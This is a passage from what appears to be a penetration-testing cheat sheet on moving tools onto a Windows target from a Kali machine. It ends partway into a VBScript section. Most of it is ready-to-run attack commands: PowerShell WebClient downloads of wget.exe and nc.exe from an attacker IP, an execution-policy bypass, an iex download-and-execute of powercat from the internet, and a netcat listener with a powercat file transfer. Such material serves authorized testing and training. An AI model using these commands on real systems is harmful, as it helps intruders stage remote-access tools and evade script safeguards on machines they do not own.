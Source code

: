 Windows machine

``` bash
(new-object System.Net.WebClient).DownloadFile("http://192.168.11.145/wget.exe","C:\Users\Public\wget.exe")
```

=== "ps1 script"

	``` bash
	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
	```

=== "wget.ps1.txt"

	``` bash
	echo $webclient = New-Object System.Net.WebClient >> wget.ps1
	echo $url = "http://ip/nc.exe" >> wget.ps1
	echo $file = "nc.exe" >> wget.ps1
	echo $webclient.DownloadFile($url,$file) >> wget.ps1
	```

### Powercat

=== "Bypass policy"

	``` powershell
	Set-ExecutionPolicy Unrestricted
	```

=== "Download and execute from internet"

	``` powershell
	iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
	```

=== "Local machine"

	``` powershell
	. .\powercat.ps1
	```

Kali machine

``` bash
sudo nc -lnvp 443 > powercat.ps1
```

Windows machine

``` bash
powercat -c ip -p 443 -i C:\Users\Public\powercat.ps1
```

### [VBScript](http://www.ericphelps.com/scripting/samples)

=== "command"
